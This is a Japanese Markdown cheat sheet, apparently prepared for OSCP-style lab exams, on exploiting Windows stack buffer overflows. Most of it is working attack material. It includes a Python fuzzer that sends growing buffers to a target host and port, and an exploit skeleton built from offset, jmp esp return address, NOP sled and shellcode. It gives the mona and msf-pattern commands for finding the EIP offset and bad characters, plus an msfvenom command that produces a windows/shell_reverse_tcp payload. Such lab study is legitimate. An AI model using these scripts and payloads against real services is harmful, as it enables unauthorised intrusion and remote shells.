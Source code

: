# ***<span style="color:blue;">BOFで使用するツールやコマンド</span>***
- Immunity Debugger   
-- 主に使うデバッガ   
- msf系のコマンド    
-- EIPをコントロールする際やアセンブリを特定するために使用する   
```
$ msf-pattern_create -l 3000   
$ msf-pattern_offset -q xxxxxxxx   
$ msf-nasm_shell
```    
- mona   
-- badcharsを探したり特定の命令を探す際に使用する
# ***<span style="color:blue;">BOFの攻略手順</span>***
１　BOFを起こす   
２　EIPをコントロールする   
３　シェルコードに使えない文字(badchars)を特定する    
４　シェルコードにジャンプするために使う命令を探す    
５　シェルコードをmsfvenomで作成する     
６　シェルを獲得する    
# ***<span style="color:blue;">BOFを起こす</span>***
- 大量の文字列を送信してBOFを引き起こす   
-- 徐々に文字列を増やしながら調査を行う（EIPが41414141になる）
```
#!/usr/bin/env python3
# 指定のマシンIP, Portに対して、100文字ずつインクリメンタルにバッファ文字列を送信するスクリプト。
# サービスの入力値の受け取り方式次第では使えないケース(バッファ送信時点で接続が切れる等)がある。
# その場合は手動(e.g. msf-pattern_create –l 3000)で文字列を送ってBOFを起こす。

import socket
import sys
import time

ip = ""

port = 8080
timeout = 5
# 送信するbufferの前に付ける必要のある文字列を指定(e.g. "USER: " )
prefix = ""

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  # ***<span style="color:blue;">Exploitに使用するスクリプト</span>***
  ```
  import socket

ip = "MACHINE_IP"
# Machine Port
port = 8080

# 送信するbufferの前に付ける必要のある文字列を指定(e.g. "USER: " )
prefix = ""
# EIPのOffset
offset = 0
# BOFを起こすのに必要な文字列。変数offsetによって長さが変化。
overflow = "A" * offset
# (主に)jmp espのアドレス
retn = ""
# NOP(具体的な命令が無く、次のバイト列へ評価を滑らせる)
padding = "\x90" * 16
# shellcode 
# msfvenom –p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> EXITFUNC=thread –e x86/shikata_ga_nai –b “\x00\x0a” –f py –v payload
payload = ""
# 送信するbufferの後に付ける必要のある文字列を指定(e.g. "USER: " )
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
# ***<span style="color:blue;">EIPのコントロール</span>***
- msfのツールを使用して送信する文字列を作成   
```
$ msf-pattern_create -l 3000
```   
- デバッガでEIPの値を確認する   
-- 右上のRegistersにあるEIPの値   
- EIPの値を用いてoffsetを特定   
-- offsetはEIPをコントロールするのに必要な文字数   
```
$ msf-pattern_offset -q xxxxxxxx
```    
- Aをoffsetの数とBを4文字(4バイト)送信してEIPを確認   
-- EIPが42424242(BBBB)になっていれば成功
# ***<span style="color:blue;">badcharsの特定</span>***
- 01からffまでのbyte列を作成    
```
for x in range(1, 256):
	print("\\x" + "{:02x}".format(x), end='')
print()
```
- payloadにbyre列を入れてpocを実行してBOFを起こす   
- ESP→Follow in Dumpでスタックの状況を確認(左下)    
-- 数バイトずれている可能性もあるのでその場合は調整する   
- 正常に表示されていない文字を特定してメモする   
- メモしたbadcharsをbyte列から削除して繰り返す   
-- badcharsがなくなるまで   
# ***<span style="color:blue;">badcharsの特定(monaを使う)</span>***
- monaのワーキングフォルダを設定する   
```
!mona config -set workingfolder C:¥mona¥%p
```   
- monaを使って比較用のbyte列を作成する   
```
!mona bytearray -b "¥x00"
```   
- アドレスを指定してbyte列との比較を行う   
-- byte列が格納されはじめているアドレスを指定することに注意   
```
!mona compare -f C:¥mona¥<app>¥bytearray.bin -a <add>
```    
- 00以外の最初の文字をbadcharsとしてメモする   
-- badcaharsを除いた比較用byte列を再生成して繰り返す   
# ***<span style="color:blue;">悪用する命令を探す</span>***
- shelcodeにjmpすることができる命令を探す   
-- 基本的にはjmp espを探すことになる   
- 探したい命令のアセンブリを確認   
```
$ msf-nasm_shell
nasm > jmp esp
```   
- monaを使ってアプリにロードされているdllを確認   
```
!mona modules
```   
- monaを使ってjmp espのアドレスを探す   
```
!mona find -s "¥xff¥xe4" -m "<module>"
```
# ***<span style="color:blue;">シェルコードを作成する</span>***
- msfvenomを用いて作成   
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP LPORT=<port> EXITFUNC=thread -e x86/shikata_ga_nai -b "¥x00¥x0a" -f py -v shellcode
```   
- badcharsによってはshikata_ga_naiが使えないことがある   
-- エンコーダを指定せずに実行すると様々なエンコーダを使ってくれる    
- フォーマットはpythonかcがおすすめ    
- 変数の名前は任意
# ***<span style="color:blue;">シェルを獲得する</span>***
- 作成したPoCを実行してシェルを獲得する   
-- リスナーは別で起動して問題ない   
- PoC内にIPアドレスやポート番号を書くのか引数を使うのか   
-- IPアドレスは引数で渡してポート番号はPoC内に書くのがオススメ   
- シェルはアプリを動作させている権限で返ってくる   
-- ***<span style="color:red;">シェルを取ったらproof.txtとIPアドレスのクリーンショットを撮る</span>***
- 失敗しても焦らずbadcharsなどを再確認する   
--　デバッガを確認しながらどこでクラッシュしているのかを確認する